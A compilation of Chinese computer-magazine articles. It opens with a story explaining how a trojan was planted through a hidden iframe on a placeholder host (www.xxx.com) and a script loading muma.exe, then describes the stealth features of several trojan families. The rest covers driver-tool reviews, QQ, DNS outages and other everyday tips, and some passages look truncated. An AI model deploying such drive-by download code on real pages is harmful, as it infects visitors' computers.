随着小菲对计算机的应用增多，木马这个名词也随之进入她的网络空间。某天，小菲在看一个娱乐新闻网站，居然发现有自己和好朋友的视频录像和大头贴。小菲头一蒙：我的个人资料怎么公布到网站了啊！小菲吓了一跳，再次打电话求助。网管哥哥问明情况后远程接入小菲的计算机进行了安全检查，经检查，小菲的计算机中发现了灰鸽子木马，通过日志排查最终确定，小菲在看娱乐网站时被人利用网页种植了木马程序并窃取了电脑中的图片。网管哥哥又为小MM讲述了木马控制她计算机的大概流程。

#### 第一步：黑客将木马种植入计算机

首先，黑客将木马程序配置完成生成一个控制端muma.exe，然后黑客构造一个IFRAME语句：
```
<iframe src=http://www.xxx.com/horse.html width=0 height=0></iframe>
```
最后，黑客将木马程序地址写入到horse.html中（"document.write"<SCRIPT language=JScript src="host/muma.exe"></SCRIPT>"
```
"document.write"<SCRIPT language=JScript src="host/muma.exe"></SCRIPT>"
```
当网页打开后，计算机将自动执行horse.html这个恶意网页，木马控制端被自动运行，用户计算机变成黑客的傀儡。

#### 第二步：黑客远程控制计算机

当黑客计算机开启后启动服务端，打开指定的端口号（如：1722）。被种植木马的计算机开启后，木马程序的客户端自动寻找黑客计算机IP地址和端口号进行连接，当发现黑客的服务器端后建立连接并将用户计算机的控制权限转交给黑客计算机的木马服务端。当木马程序的客户端与黑客的木马控制器的连接后，客户端就开始对被控制用户的桌面采用抓图等方式进行快照，然后传送到服务器上。依客户端设置的不同，可以修改快照的时间间隔，从而看到比较连贯的桌面动作。木马程序运行后，控制者可操纵用户计算机进行拷贝、打开文件、关闭计算机等操作。

### 骇人听闻的幕后黑手

网管哥哥讲完这些故事，见小菲MM听得很认真，就继续爆料，讲起自己得知的一些比较典型的木马程序的特点。

#### 木马程序（桌面类）：灰鸽子

功能特点：此类木马主要用于截取桌面图象，木马采用反向连接技术穿透防火墙，但木马体积比较大，控制端多为EXE文件，一般配合网页木马进行种植，大多杀毒软件可根据控制端特征码进行查杀。
代表软件：灰鸽子软件用反向连接方式，支持域名解析自动上线通知，无需知道服务端地址即可对目标主机进行远程控制采用服务自启动运行和进程注入方式，运行过程中彻底做到无进程工作，用户可定义注入的指定进程，文件释放名称和启动服务名称，由于名气太大，很容易被杀毒软件查找。

#### 木马程序（命令类）：Byshell

功能特点：此类木马基于DOS命令行进行远程管理控制，木马控制端体积非常小，一般控制端为DLL文件或无控制端，很难被杀毒软件发现查杀。
代表软件：Byshell黄金版。Byshell是一个无进程、无DLL、无启动项的，集多种Rootkit技术特征的独立功能远程控制后门程序(Backdoor)。其利用线程注射DLL到系统进程，解除DLL映射并删除自身文件和启动项，关机时恢复。它是内核级木马程序，主要部分工作在Ring0模式下，因此有很强隐蔽性和杀伤力。

#### 木马程序（插件类）：VIX

功能特点：无控制端，近年来新兴起的木马程序，木马采用JAVA技术镶嵌入IE浏览器中实现远程控制，杀毒软件查杀相当困难。
代表软件：VIX。木马采用JAVA技术镶嵌入IE浏览器，无需控制端，无进程、无DLL文件，不修改注册表等启动目录，杀毒软件无法正确查杀。
(北京/香草)

## 驱动那点事交给谁来办？五款驱动管理软件横评

驱动对于喜欢电脑的人来说是很熟悉的东西了。硬件发烧友们会为了榨取硬件的“潜能”而不断更新最新的驱动。普通爱好者会为了重装系统而进行驱动的安装和备份，而往往我们要为寻找合适的驱动而花费很大的力气。驱动管理软件让这些操作变得容易起来，批量安装、自动检测更新给我们带来了方便。你想知道这些工具哪个最好用吗？今天我们用严格的测试来告诉你答案。

## 毋庸置疑的测试平台

本次评测为对比测试，每一项测试都在同一软硬件平台下进行，保证了结果的客观。硬件配置如下：CPU: Intel Core2 Duo T7400 @ 2.16GHz；内存: DDR2 667 2GB；主板: Intel 945GM；显卡: GeForce 7400；硬盘类型: SATA 5400RPM。软件系统平台我们使用安装了所有补丁的Windows XP SP3。

## 客观公正的评测队伍

本次评测更加注重了参与性和互动性，由《电脑爱好者》全体软件编辑、OFan论坛网友和热心读者共同完成，保证了测试结果的公正。

## 实用为主的评测理念

秉承“实用至上”的准则，我们打破软件的枯燥功能对比，从我们对驱动管理软件的需求出发，分老系统驱动的备份与还原、新装系统的首次安装、个别硬件的驱动更新三个应用实例在对比各个工具的优劣，并在结果上数据客观对比，同时用才艺展示来对比软件的各种特色功能。

## 我们的测试对象

- 驱动精灵2009 B2
  http://software.mydrivers.com/
- 驱动魔法师 1.4.1.6
  http://dl.pconline.com.cn/download/52531.html
- 驱动人生2009 9.6.13.10
  http://www.updrv.com/
- 超级兔子驱动天使2.75
  http://www.pctutu.com/srdriver/index.htm
- DriverMax 5.0
  http://www.drivermax.com/

## 评测手记

本次参与到评测中的都是在同类中的佼佼者，驱动的备份和还原都很方便，高手之间的竞争才是最有意义的。我们也在初选时去掉了一些软件，如软件管理大师等“年久失修”的软件，功能和软件都已经落后了；也有定位特殊的软件，如五福大管家主要针对电子产品的驱动更新，硬件驱动也提供更新，但方便性上就远不如上面的软件了。

## 才艺展示

### 驱动精灵2009

这个是源自知名驱动下载站——驱动之家的作品，自诞生之日起就受到人们的喜爱。它每次启动都会花费约17秒钟的时间进行硬件检测，界面清晰，将常见操作都放在启动界面。具备驱动备份与还原、硬件检测、驱动更新、驱动卸载。在“必备工具”一栏中提供有不同系统最新的补丁下载链接。在驱动安装上提供了两种安装模式，用户可在只安装纯驱动和安装带有控制软件的驱动之间自由选择。

装网卡驱动以便确保联网）和网络版（主程序），可根据网络环境选择“网通或电信”服务器。软件功能主要侧重驱动备份与还原、搜索驱动更新两大功能。硬件检测是链接到系统的“设备管理器”，软件设置有信息反馈功能。

### 驱动人生2009

从名字上可以看出，这款软件的设置就很人性化，支持的驱动类别丰富。每次启动软件都会默认检测电脑硬件，并联网检测是否有可用更新，如果有就会提示更新，总花费约35秒的时间。软件界面显示主流功能：驱动备份与还原、驱动更新、驱动卸载。具备驱动更新过滤功能，可设置检查更新时不检测的硬件。不具备硬件检测功能，具有一键还原驱动为更新前或重装系统前驱动配置的功能。软件提供一个游戏资讯和硬件新闻模块，设计有一个求助的链接按钮。

### 超级兔子驱动天使

驱动天使在超级兔子的大旗下自然也有很多用户，界面延续了新版超级兔子清爽的风格。软件为绿色版，具备硬件检测、驱动备份、更新、还原及卸载功能，具有一键安装系统驱动功能。硬件检测信息上引入了硬件配图的图形化界面。

### DriverMax

DriverMax是一款来自国外的软件（最新版暂时没有汉化版，不过界面语言简单），外观漂亮，设计理念新颖。软件使用需要首先填写邮箱进行注册，不过是免费注册。软件提供了驱动备份、更新、还原、新硬件检测，提供流行驱动推荐功能。

## 实例评测

面对五位高手的优缺点，我们好像无从下手，功能那么多，各有好处，如何进行客观评价呢？其实根本不用这么苦恼，我们换一种思路，平时我们对这类软件的一般需求是什么呢？在同一条件下，看谁可以更好、更快地完成任务，答案自然也有了。

### 任务一 系统驱动备份与还原

任务布置：对正常工作的电脑进行驱动备份以备不测，并在出问题时进行还原。

驱动精灵：启动后单击“备份还原”按钮，然后在出现的驱动列表中勾选“需要备份的驱动”（根据需要可勾选“系统自带的驱动”，这里我们按一般情况不用选），在右侧选择喜欢的备份文件存储类型（ZIP、文件夹、自解压）如“文件夹”，单击“浏览”指定驱动存储目录，单击“开始备份”即可开始驱动的备份。需要还原时单击“备份还原”按钮，在右侧选择备份文件存储类型，在左侧选择需要还原的驱动（可全选或单独），单击“开始还原”即可完成驱动还原。

### 数据对比（见下表）

| 软件、类别 | 驱动精灵 | 驱动魔法师 | 驱动人生2009 | 超级兔子驱动天使 | DriverMax |
| --- | --- | --- | --- | --- | --- |
| 备份与还原的操作步骤 | 还好 | 简单 | 简单 | 还好 | 较多 |
| 是否可选择备份系统自带驱动 | 是 | 是 | 否 | 否 | 否 |
| 是否支持单驱动的备份、卸载与还原 | 是 | 是 | 是 | 是 | 是 |
| 默认备份驱动数量 | 26 | 15 | 19 | 18 | 19 |
| 是否备份手机或相机驱动 | 否 | 是 | 否 | 否 | 是 |
| 备份时间 | 55秒 | 5秒 | 60秒 | 60秒 | 70秒 |
| 是否支持多时段备份 | 是 | 否 | 是 | 是 | 是 |
| 是否可指定备份路径 | 是 | 是 | 是 | 是 | 是 |
| 是否可指定备份文件格式 | 是 | 否 | 否 | 否 | 是 |

### 任务二 新系统安装驱动

任务布置：重装系统，利用驱动管理软件进行驱动安装让电脑尽快恢复正常工作。

驱动精灵：单击更新驱动，软件提示未安装网卡驱动，软件自动寻找驱动并安装，然后检测出5项驱动更新，6分25秒后，安装完毕，提示重新启动，声卡驱动没有安装好。

驱动魔法师：先运行网卡驱动版，通过“搜索”驱动未找到网卡驱动，无法完成新系统驱动安装。

驱动人生2009：不自带网卡驱动安装，无法完成新系统驱动安装。

超级兔子驱动天使：启动软件会提示连接服务器失败，并检测先安装网卡驱动，但没有安装成功，提示本地驱动不存在。

DriverMax：不自带网卡驱动安装，无法完成新系统驱动安装。

### 任务三 硬件驱动更新

任务布置：对很少安装新驱动的电脑进行驱动更新检测，安装新的驱动以提高性能。

驱动精灵：启动后单击“更新驱动”软件就开始检测，提供“完全更新”和“微调模式”两种模式。右侧有“驱动说明，用户评价、用户投票”三块驱动信息，除了有驱动的功能说明外，提供了完整驱动说明链接。

### 数据对比

| 软件 | 操作步骤 | 检测时间 | 需升级数量 | 驱动信息 | 驱动新旧 |
|------|----------|----------|------------|----------|----------|
| 驱动精灵 | 简单 | 2秒 | 4 | 非常详细 | 较新 |
| 驱动魔法师 | 简单 | 4秒 | 12 | 详细 | 最新 |
| 驱动人生2009 | 简单 | 启动时检测 | 5 | 详细 | 新 |
| 超级兔子驱动天使 | 简单 | 9秒 | 6 | 详细 | 较新 |
| DriverMax | 较多 | 18秒 | 18 | 简单 | 简单 |

上会有详细信息出现，软件并不提供最新的驱动，提供稳定的驱动。超级兔子驱动天使：启动后单击“快速检测”完成驱动的更新，在新驱动中有“论坛比较”按钮，但不可用。鼠标浮动到信息上会有详细信息出现，提供推荐驱动安装。DriverMax：启动后依次单击Driver downloads an info→Check online for driver updates（驱动下载和检测→在线检查驱动更新），软件检测完毕后链接到网站，给出驱动升级建议。用户需网页下载。

## 测试报告

通过测试，我们发现驱动管理软件具备了太多的功能，但软件还总是存在一些缺点，例如对外设驱动的支持还缺乏力度。综合来看，驱动精灵的功能和性能更加全面一些。本期“编辑选择奖”颁给驱动精灵。而其他软件的某一些新特点也显露出来，例如在速度和驱动的更新上驱动魔法师是最好的，而驱动人生2009在功能的设计就要人性化得多。相信不久，这两位选手就会赶超上来，那么驱动精灵是否还可以获胜呢？我们拭目以待！ (北京/香草)

## QQ里的“漏网之鱼”

腾讯QQ是我们最常用的即时通讯软件，相信不少朋友都曾经遇到过这种情况，在线和好友聊天时，却漏收了好友发过来的即时消息，等下次上线才看到本应该即时收到的信息。那么是何原因造成了偶尔漏掉个别消息的情况呢？

QQ采用的通信协议以UDP为主，辅以TCP协议，QQ上线时，软件会向多个服务器发送UDP数据包，然后选择回复速度最快的一个作为连接服务器，上线以后，从服务器读取好友列表中的资料，上线好友的IP地址和TCP/UDP端口号，同时也通过服务器反馈自己的同类信息给好友。然后，服务器每隔一段时间向登录的QQ发送一个数据包，里面有好友的IP和端口号等，用此来表示你好友在线的情况，你同时也返回一个数据包给服务器，里面当然也包括自己的IP，也是表示自己是在线的。

> 网络大补贴：什么是TCP/UDP协议？ http://sheng.blog.51cto.com/53694/33165

当好友给你发信息时，QQ通过UDP协议进行服务器中转方式发出消息。而UDP协议是不可靠协议，但它只管发送，不管对方是否收到。于是，腾讯采用了上层协议来保证可靠传输，就是你的信息使用UDP协议发出消息后，服务器收到该包，需要使用UDP协议发回一个应答包，来保证消息可以无遗漏传输。之所以会发生“好友发过来的即时消息，偶尔没有收到，却会在下次上线或登录时才收到了这个消息”的情况，就是因为好友发出的消息，服务器已经收到并向你转发，恰巧遇上你的网络堵塞造成瞬间传输失败，使服务器没有收到你返回的应答包，为了保证信息不丢失，QQ服务器就会主动对这条信息进行传输控制，将那条消息用专门的服务器来存储，下次再转发，也就是说正常在线下的某条消息被腾讯的服务器当作离线消息来处理了，也就是我们下次上线或登录时才会收到漏掉的消息，总之，是一种网络堵塞引发的故障。 (云南/张航瑞)

## 哼着哈着谱小曲

- ★第一步：下载必备的工具，WIDI 3.3 Pro（一款把MP3转换成MID的软件）下载地址：http://work.newhua.com/cfan/200912/widi32in.zip。Overture 4.0 中文版（一款专业的谱曲软件）下载地址：http://work.newhua.com/cfan/200912/Ovr.zip。
- ★第二步：运行WIDI 3.3 Pro，点击Record a composition then transcribe it(录制音频)，点击Next（下一步），然后录制音频。
- ★第三步：这里因为我没有话筒，所以选了一个成品歌，大家可以把自己的大作录成MP3，替换本文的“周杰伦-本草纲目.mp3”，然后一路Next和Finish（完成）。会出来一堆复杂的东西，不用管它，直接点Fire→Save as，把这文件存成扩展名为MID的文件。
- ★第四步：运行Overture 4.0，这里可以选择不同类型的谱，这里选钢琴谱。
- ★第五步：点击“文件→导入”，打开之前保存的MID文件，即“周杰伦-本草纲目.mid”，并把三个复选框都勾上。
- ★第六步：稍等片刻，乐谱就制作完成了，还挺专业的呢。

接下来可以用软件自带的打印功能打印，或者填上相应的歌词。

小编点评：小编用自己浑厚的嗓音来了段《两只老虎》，效果还是有一定差距，起决定作用的主要是WIDI 3.3 Pro识别出的效果。 提战者：王一平

## ‘旺仔’的垃圾苦恼

原题重现：每次登录“旺旺”都会有一堆垃圾信息发送过来，难道就不能屏蔽它们吗？ 我觉得这个问题淘宝已经在管了，只是宣传不够，旺旺本身就有的防垃圾消息功能就可以实现。下面是以阿里旺旺2008版为例介绍具体步骤。

- 第一步：登录旺旺，点击右上角的“菜单”，会出现下拉列表，选择其中的“系统设置”。
- 第二步：在弹出窗口中的左侧选项中单击“安全设置”，再点击“防垃圾”。
- 第三步：现在可以点击“新增”按钮，然后在出现的框中输入你想要过滤的关键字，注意，每点击一次“添加”，只能输入一个关键词。
- 第四步：勾选“启用防垃圾”项，最后点击下面的“确定”即可。
- 第五步：现在的问题就是增加哪些关键词了，我这里为大家提供一些可以使用的词汇，可以从http://work.newhua.com/cfan/200913/wwd.txt查看到。

如果有多个旺旺号，设置的垃圾消息关键词不能导出、导入，造成使用十分不方便。这时可以在其中一个设置，其他的复制一下就可以了。方法很简单：只要找到旺旺在硬盘上的安装目录，进入C:\Program Files\Alisoft\WangWang\profiles\淘宝ID号\DB的文件夹（默认安装文件夹），找到user.db的文件，该文件就是保存垃圾消息关键词的文件，将该文件复制出来就可以实现垃圾消息关键词的导出备份。万一重装了系统，就可以将该文件再复制到这个文件夹里，也可以将该文件复制到其他淘宝ID的文件夹里，使其他淘宝ID也使用相同的垃圾消息过滤关键词（此方法只对2008版有效）。旧版旺旺的垃圾消息设置内容存放在C:\Program Files\Alibaba\WangWang\淘宝ID\ftkeys.dat中，导入导出方法同上，只需要复制该文件即可。其实“系统设置”中还可以设置一下“即时消息群发设置”、“个人验证”、“群验证信息”等，这些也可以设置一下，还有直接加入黑名单。我所能做的只有这么多了，但个人觉得还是有点不够完美，比如最常见的卖铁观音茶的：这些人通过诸如以下的方法照发垃圾信息：铁观音、铁观 音、铁观 音、铁_观_音、铁*观*音、铁-观-音、铁‘观’音、铁^观^音、铁^观^^音、铁_观-音、铁+观音、铁观+音、铁○观○音、铁又见音、Tie观音、铁观Yin、铁Guan音、贴关困……像是这样一个个的全加入垃圾消息字是有点麻烦的，加黑名单后，这些人就换个用户名发广告。我只能说进行以上设置后，由原来的每天收到二三十条垃圾广告降到现在每天只收到一两条垃圾广告信息。

小编点评：总体来说，有了上面这些设置肯定让你的淘宝旺旺清静不少，不过就像手机上的垃圾短信，要从根本上完全清理那是非常难的。我们的知名挑战者“舒云飞”就认为，作为买家，还是通过修改“系统设置”下的“验证设置”来防止打扰最好，但这种方法对已经是好友的卖家还是没有任何用处的。 提战者：后天

## 搜索引擎也认人？

虽然算不上是“业界首创”，但是作为全世界搜索领域当之无愧的老大，Google在自家的图片搜索引擎中引入了“面部特写”、“素描”等分类和按照颜色的搜索之后，还是改变了许多网民对图片搜索的认识。那么，在DC上大热的“面部识别”技术又是如何和搜索引擎结合在一起的呢？ 在现今的技术条件下，任何一个搜索引擎都跳不出“从互联网上抓取网页→建立索引数据库→在索引数据库中搜索排序”这三步，只是各家搜索引擎的算法不同罢了。在第一步中，搜索引擎的蜘蛛程序（Spider）会爬遍互联网，通过URL找到尽可能多的网页并抓取回来供第二步中的程序使用。而对于图片搜索，蜘蛛抓取回来的就不是网页而是互联网中的图片了，但问题在于，搜索引擎的程序并不能“看懂”抓取到的图片，而用户在搜索图片的时候使用的也是基于文字的“关键字”，搜索引擎需要在用户输入的文字和图片之间建立相应的关联。这种关联需要经历几个翻译的过程，首先是关键词翻译成搜索引擎可识别的图片特征描述，然后是图片特征描述翻译成实实在在的符合条件的图片。 问题的关键也就处在让搜索引擎可识别的“图片特征描述”上，这首先让我们引申出了人脸识别的概念。但如果我们忘掉这个名词，来解决这个问题的话，首先想到的是什么呢？那就是从图片本身的信息中提取特征，这是最简单的方式。而图片的信息包括该图片的页面中的关键字、页面中对图片的描述、图片名和图片的尺寸、甚至是照片的EXIF信息等。从这些信息中就可以对图片的内容进行判断。人脸在图片中的存储信息必然有自己的特征，通过对这些特征的提取就可以让程序分辨出那些是人脸。这样当我们在搜索中选择“脸部特写”时，就把保护这些特征的图片给筛选出来，自然通过对特征的分类，甚至对图片的表情是哭还是笑进行分类。

> 小提示： 人脸特征分析和提取是一个复杂的过程，国际上出现的技术也有不少，各自都有各自的专利，简单从Google图片搜索的表象来看，我们不能肯定它所采用的图像处理技术，但从各项特征表明，它最大的可能还是基于图片信息特征的分析、筛选。像其他的对照片的3D还原等技术还未看出在目前的Google图片搜索中的应用迹象。 至于其他一些分类，比如素描、剪贴画甚至是基于某种颜色的主色调等，技术上更为简单，通常是根据图片色彩反差，对比度、饱和度、某种颜色的像素数占据总像素数的百分比等信息来分辨的（一些号称能够过滤色情站点的软件也使用了类似的技术）。 (天津/孙仲皓)

## 电容屏电阻屏 手机触屏讲究多

触摸屏已经成为手机的标配，屏幕要是不能用手指头戳一下，厂商都不好意思拿出来卖——这就是现在的真实情况。触摸屏带给我们的方便有目共睹，显示面积扩大，操作也更趋于人性化。尤其是iPhone的出现，让触摸屏成了手机的标准配备。但是，你注意过吗？iPhone为什么不给触控笔呢？要知道，触摸屏+触控笔可是一对黄金搭档啊！

## 电容 电阻 “屏” 质不同

iPhone的操控方式没得说，绝对是当前最时尚的事情。不过，它可不像很多触摸屏手机那样附赠有触控笔——实际上，如果你用触控笔在iPhone的屏幕上点选操作一下就会知道了，原来根本不会起任何作用！这是因为，iPhone采用的是不同于其他手机的触摸屏——电容屏，大部分手机使用的则是电阻屏。

所谓电阻屏，屏幕是由一个多层符合的薄膜组成，就像是巧克力夹心饼干一样，以玻璃或有机玻璃作为基板（饼干），表面涂了透明的导电层（夹心的巧克力），再上面是一层经过硬化处理（饼干），能够防止刮伤的塑料面，它的内侧同样也有导电层（夹心的巧克力）。两个导电层之间还有许多细小的透明隔离点把它们隔开，用放大镜检查屏幕，如果发现有很多很多规则的小点，那这必是电阻屏无疑。

当用手机的人触摸屏幕时，两个导电层会发生碰撞接触，这样就会产生电阻值的变化，触摸屏的控制器将根据这个电阻值的变化计算出来触摸的位置。因此，电阻屏的手机必须对屏幕施加一定压力才能实现操作，如笔尖、手指等皆可。

iPhone采用的电容屏在原理上与电阻屏有本质区别，电容屏由一块四层复合玻璃屏构成，在手指按上去的时候，因为人体本身带有的电场会和这个玻璃屏形成一个电容，这个时候电容暂存的电流将从触摸屏四角的电极中流走，控制器会根据电流与手指到屏幕四角的距离比例，来计算出准确位置。正是这个原因，电容屏无法使用触摸笔操作控制，因为它不具备导电性。

电容屏灵敏度高，但反光严重（玻璃基板的本质劣势），而且有“飘移”的问题发生。所谓的“飘移”就是定位不准，这是因为当环境温度、湿度、环境改变时，电容都会受到影响，所以会造成定位不准的问题。

## 多点触摸非电容屏不可

而且由表中也可以看出，总体来讲电阻屏的优点要多于电容屏的，但为什么iPhone这样代表着科技、时尚的中高端数码产品还会采用电容屏呢？iPhone的多点触摸你肯定会心驰神往吧？这就是电容屏最大的优势。多点触摸屏的工作原理是在导电层上划分出了许多独立的小房子，就像是蜂巢一样，每个小房子通过独立的连线连接到外部的电路来计算定位。可以说，如果不是因为多点触摸功能这一点原因，电容屏根本不可能迅速地出现在人们眼前（电容屏的总成本要高出电阻屏很多）。

## 视频接口多又乱 为什么视频接口那么多

很多人都有过把电脑接到大屏幕平板电视上爽玩游戏的冲动，不过真正开始动手连接时却犯了难——显卡和电视上的接口并不一致，虽然照着网上教程准备了各种转接头，可偏偏就是出不来图像。这篇文章将告诉你这些常见视频接口相互转换的秘密。

## 很好很强大的数字互转——HDMI 与 DVI

只要别太老的平板电视，基本都会配备至少1个HDMI接口，而显卡上配备HDMI接口的也不在少数，如果你的显卡和显示器符合以上情况，那么恭喜你，你只需要一根不太差的HDMI线缆就能体验远超普通显示器的震撼视觉效果了。

要是显卡没有HDMI接口怎么办呢？很简单，可以从最普通最常见的DVI接口转换，DVI和HDMI接口在视频部分是基本相同的，甚至可以认为HDMI=DVI+数字音频。因此这两种接口的转换非常简单，只需要DVI-HDMI转接线或转接头即可。

至于HDMI线，本身并没有版本区别（包装上标的1.1、1.3之类都是唬人的），也不用买那些数百元的原装线，国产品牌如秋叶原之类就很好了，在我们一般家用级别的设备上看不出区别来的；但是也不要过于图便宜，一些粗制滥造的HDMI线上到1920×1080分辨率（1080P）后会出现雪花、条纹等干扰甚至干脆黑屏，建议2米以内的HDMI线选择60~100元的产品就可以了。

反过来说，像PS3之类拥有HDMI输出接口的设备要想转换后接到只有DVI接口的显示器上，同样非常容易。于是有些人就想到，能不能先把HDMI转成DVI，然后再转成D-Sub接到显示器上呢？答案是不行的，原因请看下面。

## 应用依然普遍的数模互转——DVI 与 D-Sub

所谓D-Sub，其实就是我们常说的VGA，D-Sub是比较严谨的说法，指的就是那个用了很久的15针蓝色接口。DVI标准在建立之初，考虑到向下兼容问题，最终提出了三个接口标准：DVI-A（纯模拟，也就是D-Sub）、DVI-D（纯数字）和DVI-I（混合），目前我们常见的显卡和显示器上，绝大部分都是DVI-I接口，由于这种接口既可以传输数字信号（DVI-D），也可以传输模拟信号（DVI-A和D-Sub），因此可以很方便地通过转接头（很多显卡会附带）转为D-Sub，以便满足老款显示器的连接要求。

到这里我们就可以回答之前那个问题了——HDMI接口是纯数字的，可以通过转接头/线直接转换成DVI-D信号，但接下来转成D-Sub则是不可能的。因为DVI-I接口中，和D-Sub相兼容的是DVI-A，而和HDMI相兼容的则是DVI-D，DVI-I接口本身虽然能兼容数字和模拟两种信号，但它本身并不能相互转换，只能进来什么出去还是什么。

## 理论大于实际的模拟互转——D-Sub 与色差分量

既然D-Sub和HDMI不能互转，用D-Sub转色差分量再接电视，这样都是模拟信号，总该行了吧？很遗憾，虽然这两种都是模拟信号，但由于编码方式不同，D-Sub和色差分量是不能直接连接转换的，必须要经过电视盒、色差盒之类外设才能相互转换，而且转换后会有一定程度的画质损失。当然凡事总有例外，极少数支持绿同步的显示器（显示器传输的信号并不单单是颜色，还包括一个同步信号，但分量是将同步信号的传输途径和显示器有所区别，这个信号的物理输出接口就是绿色的接头那根分量线，所以叫绿同步），可以直接接收色差分量信号并显示画面，这里就不多讲了。

至于网上卖的那些“色差转VGA”或反过来的转换线，绝大多数都是只能用在ATI一些特定型号显卡上的，如当年红极一时的Radeon 9550等。这些显卡的D-Sub接口中，可以通过重定义插针的方式输出原汁原味的色差分量信号，但这原本是要搭配ATI原装的色差分量输出模块才能用的，只不过后来被人破解了而已，另外还必须要搭配符合标准的转接线缆才能正常工作。

所以，如果是想用笔记本的D-Sub输出连接电视的色差分量，除非笔记本配备的是ATI显卡，否则就不必尝试了。老老实实用D-Sub互连吧，分辨率不正常之类的问题可以尝试通过PowerStripe软件来解决。

## 小提示 为什么HDMI连接电视无声

如果是NVIDIA显卡，需要用一根S/P DIF线缆将主板上的数字音频输出与显卡上某插针连接起来（笔记本HDMI接口如果无声的话，就只能从耳机插孔另接模拟音频线了）。如果是ATI显卡，则一方面要使用ATI专用的灰色转接头（普通HDMI-DVI转接线不行），另一方面要在Windows声音控制面板中选择正确的声卡。

## 连接原则简单易懂

电脑和电视都有HDMI或DVI这种数字接口是最简单的，可以通过HDMI或HDMI-DVI线直连。而对于较老的笔记本电脑（只有D-Sub）来说，就只好进行模拟方式的连接了，往往会受到电视D-Sub接口分辨率的限制。通过色差盒一类的设备来转换的方法也可以尝试，虽然画质会有一点损失，不过区别并不很明显。

## Stop！一切操作完全定格

### 原题重现: 快速暂停一切操作

要完成这次挑战，只需要借助一个小软件，它就是“延时继续 1.0”（下载地址：http://work.newhua.com/cfan/200914/Delay.zip）。经过我的测试，它完全达到了挑战题目的要求。这款软件提供了“暂停系统所有操作”、“暂停个别进程操作”和“暂停自定义进程操作”三种不同的暂停方式。

### 1. 暂停系统所有操作

首先启动“延时继续”，单击主窗口界面中的“一键暂停系统操作”按钮，这时会弹出一个警告窗口，单击“是”按钮即可。如果要恢复系统所有操作怎么办呢？单击窗口中的“还原系统上次锁定时操作”按钮即可。注意：软件暂停系统操作后千万不可使用其他方法关闭本软件！如果关闭了会怎样呢？笔者因为好奇心比较重，就用任务管理器关闭该软件，结果导致电脑直接卡死，后来不得不按住电源键不放才能强制关机。什么？不信？你可以自己试一下。

### 2. 暂停个别进程操作

以挑战题目所提到“暂停复制操作”为例吧（复制操作是由explorer.exe进程控制的）。首先启动“延时继续”，在“系统进程列表”中右键单击explorer.exe进程，在弹出的右键菜单中选择“单独暂停进程”命令。如果想恢复复制操作，只需再右键单击explorer.exe进程，然后在弹出的右键菜单中选择“继续选中进程”命令即可。

### 3. 暂停自定义进程操作

首先启动“延时继续”，右键“系统进程列表”中需要暂停操作的进程，然后在弹出的右键菜单中选择“加入自定义进程列表”命令。添加完毕后，单击主窗口界面中的“暂停自定义进程列表”按钮即可。恢复的方法也很简单，只要单击“恢复自定义进程列表”按钮即可。

## 用‘暴风门’事件给你上一节网络知识课

前一段时间，本来就很脆弱的中国互联网又被狠狠地折磨了一把，5月19日，江苏、安徽等六省的网络出现瘫痪，到底是什么原因造成的故障呢？据说大家都认为是非常简单的DNS域名解析故障。DNS还能引起网络瘫痪？别逗了，这可能吗？

### 看DNS，看上网那些事

先让我们从DNS的原理出发，看看这次故障的真正原因吧！当在浏览器中输入（http://www.baofeng.com），电脑是如何得到IP地址的呢？首先浏览器发现它是一个名字，于是电脑解析这个域名地址，把请求发送到默认DNS服务器。DNS服务器会检查自己的DNS缓存和记录，以查看能否自行解析域名。如果运营商的服务器故意让域名解析指向另外一个错误的域名，这就是DNS劫持；如果设置为此域名不能解析，这就是网站的屏蔽；如果响应时间过长或者不稳定，就会严重影响上网速度。如果服务器不能通过自身的缓存或者记录解析域名，它将连接到其他服务器对该域名进行解析。每个网站都有一个负责域名解析的服务器，如暴风使用的域名解析服务器就是Dnspod，如果负责该域名解释的服务器出现故障，此域名将无法解析。

小知识：DNS就是Domain Name System域名系统的简称，它担当Internet的电话簿功能：将人易记可读的域名翻译为难记的IP地址。在我们电脑中运行着DNS客户端，当在浏览器中输入一个域名（如暴风http://www.baofeng.com），就可以解析为数字地址（60.28.110.232），通过IP地址就可以访问到相应的暴风官方网站。

### 瞧Dnspod解析‘暴风门’

在‘暴风’的这次事故中，如图1所示黑客对‘暴风影音’软件提供域名解析服务的域名解析服务器Dnspod实施了攻击，所以造成‘暴风影音’软件域名解析请求不成功。由于暴风影音播放器的stormlive.exe进程具有开机自启动频繁联网的特性，这些客户端的海量请求最终导致中国电信DNS服务器访问量突增，使得域名解析过慢或者不能解析，造成用户无法通过域名访问网络。这个过程就好比是目前已经发生了堵车，可是这些客户进程就像一些傻子司机，不断向堵车地方前进，最终的结果自然是造成堵死。用户觉得好像是访问的网站出了故障，其实电脑仍然在通过IP地址访问网站。 在此事件中，电信、暴风、Dnspod都负有不可推卸的责任。当发生攻击的时候，如果运营商能够像北京电信那样及时屏蔽解析，如果Dnspod能及时防止攻击，如果暴风影音没有设置这个自动联网的stormlive.exe进程，哪怕客户端请求域名解析失败时不再像傻子司机一样频繁请求，这次网络故障就不会发生。

### 莫后怕，避风躲雨有妙招

上面大家已经了解此次网络瘫痪的原因，难道任由DNS这些问题逞凶，浪费宝贵的上网时间吗？不，一定要找到相应的对付方法，远离DNS故障，让网络畅通无阻。

- 1.更换DNS

更换DNS服务器的方法非常简单。对于宽带拨号用户来说，在‘设置→网络连接’中找到宽带上网的连接，打开网络连接属性，选择Internet协议（TCP/IP）的属性页，不要选择自动获取DNS，而要选择‘使用下面的DNS服务器地址’。很多朋友在填入DNS服务器的时候，仅仅填写首选DNS服务器，这样如果首选服务器失效，将导致域名无法解析。

- 小提示：如何选择DNS服务器

在网络可以搜到不少好用的DNS服务器地址，国外的DNS服务器可用的也非常多，推荐大家使用OpenDNS提供的DNS服务器。将首选DNS服务器和备用DNS服务器分别设置为208.67.222.222和208.67.220.220，即可使用OpenDNS，设置之后可以使用nslookup命令验证是否设置成功。使用openDNS不但避免了DNS劫持，还可以访问很多被电信联通屏蔽的站点，深受大家喜欢Gmail的等国外网站的访问也会更稳定。

- 2.设置本地的HOST文件

不少朋友可能知道，在进行DNS请求以前，Windows系统会先检查自己的HOST文件中是否有相应的解析记录。如果有则调用这个IP地址映射，如果没有，DNS服务器提出域名解析。假设Windows XP安装在C:\WINDOWS，那么HOST文件就在C:\WINDOWS\system32\drivers\etc中。

可以把经常访问的网站加入这个HOST文件。比如www.sina.com.cn，在HOST文件中添加如下内容即可：202.108.33.32 www.sina.com.cn

